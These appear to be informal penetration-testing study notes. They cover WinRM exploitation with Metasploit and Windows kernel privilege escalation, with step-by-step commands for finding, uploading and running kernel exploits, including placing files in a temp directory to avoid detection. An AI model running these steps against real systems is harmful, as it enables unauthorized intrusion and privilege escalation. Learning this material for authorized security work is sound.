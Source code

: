     

  

- ==_WinRM: Exploitation with metasploit_==
    
    1. `msfconsole`
    2. `use exploit/windows/winrm/winrm_script_exec`
    3. `set rhost <target ip>` && `set force_vbs true` && `set username administratore` && `set password <password we found in crackmapxec or use wordlist >`
    4. `run` or `exploit`
    

  

  

## **Windows Privilege Escalation ( Section 2 )**

> is that way to elevate my privileges form the basic user to administrator or obtain NT authority system privileges

> The kernel is a computer program that is the core of os and has a complete control over every resources and hardware .

> The windows os come with kernel called windows NT

- Privilege escalation on windows will typically follow 2 steps :

1. ==_identifying kernel vulnerabilities_== ⇒ see what the kernel i sholud attack and who its work …. etc
2. ==_Downloading , compiling and transferring kernel exploit onto target system ._== 😉

  

- ==**_Windows Kernel Exploits_**==
- _The Tools can be found in this 2 repo_ ⇒ `Windows-Exploit-Suggester` && `Windows-Kernel-Exploit`

  

- ==**_Windows Kernel Exploit with metasploit && Scripts_**==
    
    1. `_First u should identify what the privileges u have and what u can do and what u can’t_` ( that will be if u are in the shell code or meterpreter session
    2. Then search in metasploit to `post/multi/recon/local_exploit_suggester` && `run` ⇒ that will enumerate all vuln within this version of windows that let u escalation your Privilege , just pick one and goess on
    3. select what exploit u want and type option to set the attribit
    4. then we will type a `systeminfo` command and copy the info , it’s critical info
    
    > _know with Scripts_
    
    1. now clone the repo of _Windows-Exploit-Suggester_ , then `./Windows-Exploit-Suggester.py --update`=> to installe the latest version of database
    2. `./Windows-Exploit-Suggester.py --database <databases file > --systemifo <systeminfo text file>` ⇒ that will generate a many type of exploit u can use
    3. now when u see the result of step 2 and what the type of exploit u can see
    4. go to `Windows-Kernel-Exploit` repo , and search for the type u want then download the exploit
    5. then navigate the temp file on the target system ⇒ ==_to not be detected by the user of the system owner_==
    6. now upload the exploit in this directory
    7. now navagite the file , and run it using `=> ./<filename> <windows ver (7,8,12)>`
    8. after this is done u can see whoiam and u will see u are the admin now ;)
    